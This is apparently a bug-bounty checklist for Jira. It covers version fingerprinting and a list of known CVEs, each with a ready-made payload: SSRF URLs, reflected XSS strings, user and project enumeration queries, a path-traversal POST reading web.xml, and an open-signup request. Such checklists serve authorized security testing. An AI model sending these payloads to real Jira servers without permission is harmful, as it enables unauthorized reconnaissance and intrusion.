 # Jira Common Bugs

## Introduction
What would you do if you came across a website that uses Jira?

## How to Detect
```
https://example.com/secure/Dashboard.jspa
https://example.com/login.jsp
```

1. Find the related CVE by checking jira version
* How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the version jira. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)
```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
- CVE-2018-20824 (XSS)
```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
- CVE-2019-8451 (SSRF)
```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
- CVE-2019-8449 (User Information Disclosure)
```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
- CVE-2019-8442 (Sensitive Information Disclosure)
```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
- CVE-2019-3403 (User Enumeration)
```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```
- CVE-2020-14181 (User Enumeration)
```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```
- CVE-2020-14178 (Project Key Enumeration)
```
https://example.com/browse.<PROJECT_KEY>
```
- CVE-2020-14179 (Information Disclosure)
```
https://example.com/secure/QueryComponent!Default.jspa
```
- CVE-2019-11581 (Template Injection)
```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
- CVE-2019-3402 (XSS)
```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled
```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```

## Reference
* [@harshbothra](https://twitter.com/harshbothra)